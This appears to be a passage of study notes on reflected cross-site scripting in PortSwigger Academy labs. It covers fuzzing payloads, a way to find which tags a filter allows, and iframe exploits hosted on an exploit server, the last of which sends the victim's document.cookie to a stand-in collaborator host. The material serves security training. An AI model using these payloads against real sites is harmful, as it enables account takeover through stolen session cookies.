 ```html
<img src=1 onerror=alert(1)>
```

```html
"><svg><animatetransform onbegin=alert(1)>
```

```
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```

> Submitting the above payloads may give response message, _**"Tag is not allowed"**_. Then _**identify**_ allowed tags using [PortSwigger Academy Methodology](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked).

> URL and Base64 online encoders and decoders

* [URL Decode and Encode](https://www.urldecoder.org/)
* [BASE64 Decode and Encode](https://www.base64encode.org/)

> This lab gives great **Methodology** to _**identify**_ allowed HTML tags and events for crafting POC XSS.

> Host **iframe** code on exploit server and deliver exploit link to victim.

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Cbody%20onpopstate=print()%3E">  
```

[PortSwigger Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

> In below sample the tag **Body** and event **onresize** is the only allowed, providing an injection to perform XSS.

```JavaScript
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

> This example show the **Body** and event **onpopstate** is not blocked.

```JavaScript
?search=%22%3E%3Cbody%20onpopstate=print()>
```

[PortSwigger Cheat-sheet XSS Example: onpopstate event](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)

> Below JavaScript is hosted on exploit server and then deliver to victim. The `code` is an iframe doing **onload** and the search parameter is vulnerable to **onpopstate**.

```JavaScript
<iframe onload="if(!window.flag){this.contentWindow.location='https://TARGET.net?search=<body onpopstate=document.location=`http://COLLABORATOR.com/?`+document.cookie>#';flag=1}" src="https://TARGET.net?search=<body onpopstate=document.location=`http://COLLABORATOR.com/?`+document.cookie>"></iframe>
```

#### Bypass Blocked Tags
